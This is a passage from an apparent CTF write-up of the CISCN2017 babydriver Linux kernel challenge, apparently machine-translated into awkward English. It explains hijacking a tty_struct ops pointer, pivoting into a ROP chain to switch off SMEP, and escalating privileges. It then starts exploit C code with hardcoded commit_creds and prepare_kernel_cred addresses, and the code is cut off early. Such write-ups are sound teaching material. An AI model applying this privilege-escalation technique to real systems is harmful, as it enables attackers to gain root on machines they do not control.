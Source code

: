 ```
|......   |  |   +----------+

+---------+  |   |evil 3    |

|*ops     |--+   +----------+

+---------+      |evil 4    |

|......   |      +----------+

|......   |      |......    |

+---------+      +----------+

```

Then we can jump to different evils through different operations (such as `write, ioctl`, etc.).


For this topic, because smep protection is enabled, if you want ret2usr to increase the weight, you need to modify the value of cr4, and the control function pointer is not enough. You can control the function pointer to perform the stack pivot and other operations to our rop chain. Space, close smep with rop, and then proceed.


&gt; This question is not given to vmlinux. You need to extract the kernel image using [extract-vmlinux] (https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux).


After turning off smep protection, you can use rop to do whatever you want. The final [exp](https://github.com/bash-c/pwn_repo/blob/master/CISCN2017_babydriver/uaf_tty_struct.c) is as follows:
```C

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <string.h>

#include <sys/types.h>

#include <sys/stat.h>

#include <fcntl.h>



#define prepare_kernel_cred_addr 0xffffffff810a1810

#define commit_creds_addr 0xffffffff810a1420



void* fake_tty_operations[30];



size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()

{

	__asm__("mov user_cs, cs;"
```
